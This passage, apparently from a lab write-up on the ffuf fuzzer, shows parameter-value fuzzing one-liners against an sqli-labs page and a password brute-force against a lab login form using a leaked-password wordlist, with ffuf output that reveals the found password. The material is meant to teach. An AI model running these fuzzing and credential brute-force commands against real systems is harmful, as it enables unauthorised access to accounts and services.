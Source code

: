 Filtering out responses with 39 words we get the correct parameter `id`

We can use seclists word-wordlist if we didn't find anything. It's a bigger list than burp's list (`Discovery/Web-Content/raft-medium-words-lowercase.txt `).

### Piping into ffuz

After we found the parameter we can `fuzz` the values. Take a look at the URL and we can see that the ID has to be a integer value. We can use or create a list and save it to a file or, since the values are simple integers, we can create a list in the console and pipe it to ffuf with the paramater `-w -`.

Below are 5 different examples how to create a list `[0-255]` and pipe it to ffuf.

```
$ ruby -e '(0..255).each{|i| puts i}' | ffuf -u 'http://MACHINE_IP/sqli-labs/Less-1/?id=FUZZ' -c -w - -fw 33
$ ruby -e 'puts (0..255).to_a' | ffuf -u 'http://MACHINE_IP/sqli-labs/Less-1/?id=FUZZ' -c -w - -fw 33
$ for i in {0..255}; do echo $i; done | ffuf -u 'http://MACHINE_IP/sqli-labs/Less-1/?id=FUZZ' -c -w - -fw 33
$ seq 0 255 | ffuf -u 'http://MACHINE_IP/sqli-labs/Less-1/?id=FUZZ' -c -w - -fw 33
$ cook '[0-255]' | ffuf -u 'http://MACHINE_IP/sqli-labs/Less-1/?id=FUZZ' -c -w - -fw 33
```

Again, we have to look at the response and filter out false positives with `-fw`.

## Brute-forcing passwords

We can also brute-force passwords. We can look at burp how the header looks like and use a password list like below. We yest again get a lot of false positives so we filter them out by size `-fs`

```
└─# ffuf -u http://10.10.18.208/sqli-labs/Less-11/ -c -w /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt -X POST -d 'uname=Dummy&passwd=FUZZ&submit=Submit' -fs 1435 -H 'Content-Type: application/x-www-form-urlencoded' 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.18.208/sqli-labs/Less-11/
 :: Wordlist         : FUZZ: /usr/share/seclists/Passwords/Leaked-Databases/hak5.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : uname=Dummy&passwd=FUZZ&submit=Submit
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 1435
________________________________________________

p@ssword                [Status: 200, Size: 1526, Words: 100, Lines: 50]
:: Progress: [2351/2351] :: Job [1/1] :: 663 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
